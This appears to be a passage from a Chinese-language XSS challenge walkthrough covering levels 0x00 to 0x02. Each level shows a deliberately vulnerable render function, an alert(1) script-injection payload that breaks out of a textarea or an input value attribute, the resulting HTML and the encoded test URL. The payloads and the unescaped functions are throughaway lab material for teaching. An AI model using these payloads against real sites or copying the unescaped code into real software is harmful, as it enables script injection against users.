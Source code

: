 ```html
<script>alert(1)</script>
```

- 网页代码

```html
<div><script>alert(1)</script></div>
```

- URL

```url
http://xss.test/?input=%3Cscript%3Ealert(1)%3C%2Fscript%3E
```

## 0x01

- server 源码

输入参数被放在文本标签里，文本标签前后闭合即可

```php
function render (input) {
  return '<textarea>' + input + '</textarea>'
}
```

- 插入代码

```html
</textarea><script>alert(1)</script><textarea>
```

- 网页代码

```html
<textarea></textarea><script>alert(1)</script><textarea></textarea>
```

- URL

```url
http://xss.test/?input=%3C%2Ftextarea%3E%3Cscript%3Ealert(1)%3C%2Fscript%3E%3Ctextarea%3E
```

## 0x02

- server 源码

参数作为 <input> 标签的 value 回显到前端，可以闭合 value 加上onclick事件，或者闭合 <input> 添加 alert

```php
function render (input) {
  return '<input type="name" value="' + input + '">'
}
```

- 插入代码

```html
'"><script>alert(1)</script>

" onclick=alert(1) "
```
